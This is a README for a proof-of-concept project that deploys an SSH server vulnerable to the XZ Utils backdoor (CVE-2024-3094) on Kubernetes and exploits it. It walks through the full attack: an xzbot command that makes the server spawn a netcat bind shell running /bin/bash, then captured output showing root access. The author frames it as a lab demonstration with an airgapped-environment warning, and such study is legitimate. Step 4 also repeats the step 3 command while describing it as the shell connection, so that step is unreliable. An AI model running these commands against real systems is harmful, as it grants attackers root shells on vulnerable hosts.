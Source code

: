 # xzwhy
```
 _  _  ____  _  _ 
( \/ )(_   )( \/ )
 )  (  / /_  \  / 
(_/\_)(____) (__) 

```

This project is a Kubernetes-friendly Proof of Concept (POC) for [CVE-2024-3094](https://nvd.nist.gov/vuln/detail/CVE-2024-3094) affecting XZ Utils. See [this article](https://pentest-tools.com/blog/xz-utils-backdoor-cve-2024-3094) for an excellent walkthrough of the exploit's provenance and mechanics.

# WARNING 
⚠⚠⚠

Running any of the commands below may result in the deployment of a vulnerable application that is highly susceptible to attack. If you choose to follow these steps, it is recommended that you do so in an airgapped test environment. 

⚠⚠⚠


## Instructions


### 1: Roll out the vulnerable application
```
kubectl create -f xzwhy.yml
```

This will deploy a vulnerable SSH endpoint whose entrypoint is ```/bin/bash -c "env -i LANG=en_US.UTF-8 && unset TERM && unset LD_DEBUG && LD_LIBRARY_PATH=/CVE-2024-3094/ /usr/sbin/sshd -p 2222 -D"```


### 2: Obtain the vulnerable endpoint's URL
The vulnerable SSH endpoint exposes two ports via a load balancer: 2222 is listening for SSH connections and 1234 is a convenience to allow ingress on a bind shell port that we will use during the exploit
```
  type: LoadBalancer
  ports:
    - name: ssh
      protocol: TCP
      port: 2222
      targetPort: 2222
    - name: exploitshellingress
      protocol: TCP
      port: 1234
      targetPort: 1234
```


We can extract the deployed loadbalancer's URL using kubectl:
```
xzwhy_endpoint=`kubectl get services -o jsonpath='{.items[0].status.loadBalancer.ingress[0].hostname}' --namespace=xzwhy-ns --field-selector metadata.name=xzwhy-loadbalancer` && echo $xzwhy_endpoint
```


### 3: Initiate the attack by making a malicious SSH connection
Now we connect to the vulnerable server using the [teamnautilus/xzbot](https://hub.docker.com/r/teamnautilus/xzbot) utility:
```
docker run -it --rm golang:latest /bin/bash -c "mkdir -p /xzbot && pushd /xzbot/ && git clone https://github.com/amlweems/xzbot.git && ls -laF && pushd ./xzbot/ && go build -o /xzbot/tmp/; popd && /xzbot/tmp/xzbot -h && /xzbot/tmp/xzbot -addr $xzwhy_endpoint:2222 -cmd 'nc -lnvp 1234 -e /bin/bash'"
```

This will cause the vulnerable SSH server to execute a bind shell via ```nc -lnvp 1234 -e /bin/bash``` on our behalf. After running this command you should see something similar to:
```
Cloning into 'xzbot'...
remote: Enumerating objects: 30, done.
remote: Counting objects: 100% (30/30), done.
remote: Compressing objects: 100% (20/20), done.
remote: Total 30 (delta 14), reused 25 (delta 10), pack-reused 0
Receiving objects: 100% (30/30), 422.65 KiB | 8.99 MiB/s, done.
Resolving deltas: 100% (14/14), done.
total 12
drwxr-xr-x 3 root root 4096 Apr 17 22:37 ./
drwxr-xr-x 1 root root 4096 Apr 17 22:37 ../
drwxr-xr-x 4 root root 4096 Apr 17 22:37 xzbot/
/xzbot/xzbot /xzbot /go
go: downloading github.com/cloudflare/circl v1.3.7
go: downloading golang.org/x/crypto v0.21.0
go: downloading golang.org/x/sys v0.18.0
/xzbot /go
Usage of /xzbot/tmp/xzbot:
  -addr string
        ssh server address (default "127.0.0.1:2222")
  -cmd string
        command to run via system() (default "id > /tmp/.xz")
  -seed string
        ed448 seed, must match xz backdoor key (default "0")
00000000  00 00 00 1c 73 73 68 2d  72 73 61 2d 63 65 72 74  |....ssh-rsa-cert|
00000010  2d 76 30 31 40 6f 70 65  6e 73 73 68 2e 63 6f 6d  |-v01@openssh.com|
00000020  00 00 00 00 00 00 00 03  01 00 01 00 00 01 01 01  |................|
00000030  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000040  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000050  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000060  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000070  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000080  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000090  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
000000a0  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
000000b0  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
000000c0  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
000000d0  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
000000e0  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
000000f0  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000100  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000110  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000120  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000130  00 00 00 00 00 00 00 00  00 00 00 01 00 00 00 00  |................|
00000140  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000150  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000160  00 00 01 14 00 00 00 07  73 73 68 2d 72 73 61 00  |........ssh-rsa.|
00000170  00 00 01 01 00 00 01 00  34 12 00 00 78 56 00 00  |........4...xV..|
00000180  a2 ff d9 f9 ff ff ff ff  a1 36 c4 cc b3 b2 4d b3  |.........6....M.|
00000190  99 11 52 a7 2c 38 d2 29  f9 5d 1a 06 63 36 1e 48  |..R.,8.).]..c6.H|
000001a0  9c 95 4e f1 77 41 07 92  1c a4 9f b0 b4 dc 93 c2  |..N.wA..........|
000001b0  66 03 3d fa 5c 8b 49 41  86 26 42 88 2b 9d 5b 4c  |f.=.\.IA.&B.+.[L|
000001c0  b8 a4 5e 9d 62 c3 51 0a  be ca 5d 8a 47 45 3a 1e  |..^.b.Q...].GE:.|
000001d0  99 1f c1 0e 97 b7 58 ec  51 45 5b 24 3f b4 69 6a  |......X.QE[$?.ij|
000001e0  68 45 7c 3b 3a d9 d7 0a  ad 09 04 d8 a1 b9 81 22  |hE|;:.........."|
000001f0  58 69 eb 07 ad 91 53 15  b2 1d bf 47 b9 48 a0 4e  |Xi....S....G.H.N|
00000200  8b 28 cd 82 4b fd 72 17  12 ce 7f e7 15 3c 9e fa  |.(..K.r......<..|
00000210  a7 e1 d6 e4 ec eb 66 34  5a 74 00 00 00 00 00 00  |......f4Zt......|
00000220  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000230  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000240  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000250  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000260  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000270  00 00 00 00 00 00 00 00  00 00 00 10 00 00 00 07  |................|
00000280  73 73 68 2d 72 73 61 00  00 00 01 00              |ssh-rsa.....|
```

### 4: Profit
Connect to the shell you spawned. Note the use of the xzwhy_endpoint variable:
```
docker run -it --rm golang:latest /bin/bash -c "mkdir -p /xzbot && pushd /xzbot/ && git clone https://github.com/amlweems/xzbot.git && ls -laF && pushd ./xzbot/ && go build -o /xzbot/tmp/; popd && /xzbot/tmp/xzbot -h && /xzbot/tmp/xzbot -addr $xzwhy_endpoint:2222 -cmd 'nc -lnvp 1234 -e /bin/bash'"
```

It isn't immediately obvious, but the command above should now be connected to the remote bind shell. You can test this by running various commands:
```
whoami
root
```

```
ls -liart
total 0
29377113 drwxr-xr-x   2 root root   6 Jun 11  2023 home
26259491 drwxr-xr-x   2 root root   6 Jun 11  2023 boot
24205734 drwxr-xr-x   1 root root  41 Mar 11 00:00 var
40912790 drwxr-xr-x   1 root root  30 Mar 11 00:00 usr
37758063 drwxr-xr-x   2 root root   6 Mar 11 00:00 srv
15748188 lrwxrwxrwx   1 root root   8 Mar 11 00:00 sbin -> usr/sbin
32522820 drwxr-xr-x   2 root root   6 Mar 11 00:00 opt
31465607 drwxr-xr-x   2 root root   6 Mar 11 00:00 mnt
30427284 drwxr-xr-x   2 root root   6 Mar 11 00:00 media
15748187 lrwxrwxrwx   1 root root   9 Mar 11 00:00 lib64 -> usr/lib64
15748186 lrwxrwxrwx   1 root root   7 Mar 11 00:00 lib -> usr/lib
15748184 lrwxrwxrwx   1 root root   7 Mar 11 00:00 bin -> usr/bin
12633381 drwx------   1 root root  18 Mar 30 12:22 root
       1 dr-xr-xr-x  13 root root   0 Apr 17 21:44 sys
34652905 drwxr-xr-x   1 root root  61 Apr 17 22:26 ..
34652905 drwxr-xr-x   1 root root  61 Apr 17 22:26 .
       1 dr-xr-xr-x 166 root root   0 Apr 17 22:26 proc
 3413214 drwxr-xr-x   1 root root  39 Apr 17 22:26 etc
       1 drwxr-xr-x   5 root root 360 Apr 17 22:26 dev
39855738 drwxrwxrwt   1 root root   6 Apr 17 22:26 tmp
14845582 drwxr-xr-x   1 root root  37 Apr 17 22:26 run

```


### 5: Cleanup
```
kubectl delete -f xzwhy.yml
```


# Credits

* [teamnautilus](https://hub.docker.com/r/teamnautilus/xzbot) created a [server vulnerable to the exploit](https://hub.docker.com/r/teamnautilus/xzbot)
* [amlweems](https://github.com/amlweems/xzbot.git) published an automated tool for exploiting vulnerable SSH endpoints
* [patorjk](https://patorjk.com/software/taag/#p=testall&f=Graffiti&t=xzy) created an excellent text-to-ascii art generator
